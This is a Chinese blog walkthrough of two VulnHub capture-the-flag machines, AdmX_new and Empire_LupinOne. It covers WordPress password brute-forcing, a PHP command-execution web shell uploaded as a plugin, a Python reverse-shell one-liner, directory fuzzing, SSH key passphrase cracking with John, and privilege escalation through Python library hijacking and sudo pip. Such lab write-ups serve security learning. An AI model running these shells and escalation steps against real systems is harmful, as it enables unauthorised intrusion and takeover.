 ```yaml
---
title: Vuln AdmX_new & Empire_LupinOne
published: 2024-12-12
pinned: false
description: Vuln AdmX_new & Empire_LupinOne wp
tags: ['vuln']
category: 渗透
licenseName: "MIT"
author: zsm
draft: false
date: 2024-12-12
pubDate: 2024-12-12
---
```



## AdmX_new
### 靶场链接
https://download.vulnhub.com/admx/AdmX_new.7z
### 日常扫描
![image.png](https://www.helloimg.com/i/2025/02/01/679dd5311e56b.png)
只有80端口开放，直接访问没什么东西，dirb扫描出来wordpress，访问看看，发现很慢，burp抓包发现重定向到192.168.159.145
![image-1.png](https://www.helloimg.com/i/2025/02/01/679dd52e24b43.png)
### getshell
wordpress的后台登陆在wp-login.php,爆破账号密码得到admin/adam14,进入后台第一时间想着图片马传上去，然后蚁剑连接，结果一直失败，后面发现可以传插件，打包成zip传上去

```
<?php
if(isset($_GET['cmd']))
        {
                system($_GET['cmd']);
        }

?>
```
尝试访问http://192.168.64.9/wordpress/wp-content/plugins/wordpress_getshell.php?cmd=id
![image-2.png](https://www.helloimg.com/i/2025/02/01/679dd530c78d5.png)
哎，可以执行，尝试python反弹shell
>python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.64.3",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'

![image-3.png](https://www.helloimg.com/i/2025/02/01/679dd52e2272e.png)
![image-4.png](https://www.helloimg.com/i/2025/02/01/679dd531a572c.png)
### 提权
成功之后sudo -l看看文件执行权限，发现
![image-5.png](https://www.helloimg.com/i/2025/02/01/679dd52f147d6.png)
直接执行这个，
![image-6.png](https://www.helloimg.com/i/2025/02/01/679dd52e8c7a0.png)
成功拿到root

## Empire_LupinOne
### 靶场链接
https://www.vulnhub.com/entry/empire-lupinone,750/
### 扫描
![image.png](https://www.helloimg.com/i/2025/02/01/679dd7a31fbbe.png)
访问80端口看看
![image-1.png](https://www.helloimg.com/i/2025/02/01/679dd7a18e13e.png)
一个图片，源码里面也什么都没有
dirb直接扫目录啥都没有，robots.txt里面有一个
![image-2.png](https://www.helloimg.com/i/2025/02/01/679dd7a049265.png)
但是访问这个页面又是一个404,在旧版本的Apache服务器中，~ 指代用户主目录，可以用fuzz进行测试
>wfuzz -c -z file,/usr/share/wordlists/wfuzz/general/common.txt --hc 403,404 http://192.168.64.15/~FUZZ

扫描出来secret页面，
![image-3.png](https://www.helloimg.com/i/2025/02/01/679dd7a3c06f4.png)
大概发现是有个账号，还缺一个密码，在这个下面继续探测
>wfuzz -c -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  --hc 404,403 -u http://192.168.64.15/~secret/.FUZZ.txt

发现.mysecret.txt，访问一下
![image-4.png](https://www.helloimg.com/i/2025/02/01/679dd79f9cf8a.png)
### getshell
估计就是ssh的密钥，不过被简单的加密了，扔厨子里面，base58直接出来
返回kali，vim一个sshkey，扔进去，然后用join暴力破解
>/usr/share/john/ssh2john.py sshkey > hash
john --wordlist=/usr/share/wordlists/fasttrack.txt hash

得到密码P@55w0rd!
![image-5.png](https://www.helloimg.com/i/2025/02/01/679dd79fa58da.png)

### 提权
sudo -l看看
![image-6.png](https://www.helloimg.com/i/2025/02/01/679dd79fb94e6.png)
大概是自己写了个python库，然后这个python文件可以执行他，而且是另一个号的权限，那么就可以通过这个提权，
>find /usr/ -name '*webbrowser*'
/usr/lib/python3.9/webbrowser.py

![image-7.png](https://www.helloimg.com/i/2025/02/01/679dd7a33af38.png)
往里面写一个binsh试试（这个靶机怎么vim都没有啊啊）
![image-8.png](https://www.helloimg.com/i/2025/02/01/679dd7a5c037c.png)
执行之后确实提升权限了，但是还不是root，再来sudo -l一下，发现可以执行pip，直接pip提权
![image-9.png](https://www.helloimg.com/i/2025/02/01/679dd7a367e37.png)
这个时候就结束了